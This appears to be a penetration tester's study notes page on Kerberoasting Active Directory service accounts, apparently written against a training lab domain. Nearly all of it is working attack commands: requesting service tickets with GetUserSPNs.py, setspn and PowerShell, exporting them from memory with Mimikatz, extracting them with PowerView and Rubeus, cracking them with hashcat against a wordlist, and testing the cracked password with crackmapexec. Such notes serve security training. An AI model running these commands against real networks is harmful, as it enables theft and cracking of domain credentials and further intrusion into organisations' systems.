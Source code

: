 # Kerberoasting

### Kerberoasting Overview

* This attack targets Service Principal Names (SPNs) accounts.
  * [purpose-of-service-principal-names-spn-in-active-directory.md](../blog/purpose-of-service-principal-names-spn-in-active-directory.md "mention")
    * SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running
      * Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

### Kerberoasting - Performing the Attack

* Depending on your position in a network, this attack can be performed in multiple ways:
  * From a non-domain joined Linux host using valid domain user credentials.
  * From a domain-joined Linux host as root after retrieving the keytab file.
  * From a domain-joined Windows host authenticated as a domain user.
  * From a domain-joined Windows host with a shell in the context of a domain account.
  * As SYSTEM on a domain-joined Windows host.
  * From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

## Kerberoasting - from Linux

### Kerberoasting with GetUserSPNs.py

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```



<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Requesting all TGS Tickets

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```



<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Requesting a Single TGS ticket

```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

#### Cracking the Ticket Offline with Hashcat

* crack with [hashcat.md](hashcat.md "mention")



```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

* password is database!

**Testing Authentication against a Domain Controller**

* [crackmapexec.md](crackmapexec.md "mention")

```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - from Windows

### Manual way

#### Enumerating SPNs with setspn.executes

```cmd-session
setspn.exe -Q */*
```

#### Targeting a Single User

```powershell-session
Add-Type -AssemblyName System.IdentityModel
```

```powershell-session
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

* The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
* The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
* [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
* We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
* We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

#### Retrieving All Tickets Using setspn.exe

```powershell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Extracting Tickets from Memory with Mimikatz



* [mimikatz.md](mimikatz.md "mention")

```cmd-session
mimikatz # base64 /out:true
```

```cmd-session
mimikatz # kerberos::list /export  
```

```shell-session
echo "<base64 blob>" |  tr -d \\n 
```

```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

```shell-session
kirbi2john.py sqldev.kirbi
```

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

* [hashcat.md](hashcat.md "mention")

```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated / Tool Based Route

#### Using PowerView to Extract TGS Tickets

```powershell-session
Import-Module .\PowerView.ps1
```

```powershell-session
Get-DomainUser * -spn | select samaccountname
```

#### Using PowerView to Target a Specific User

```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Exporting All Tickets to a CSV File

```powershell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Using Rubeus

```powershell-session
.\Rubeus.exe kerberoast /stats
```

```powershell-session
 .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Using the /tgtdeleg Flag

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `/tgtdeleg` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES 128/256

## Reference

* https://adsecurity.org/?p=3458
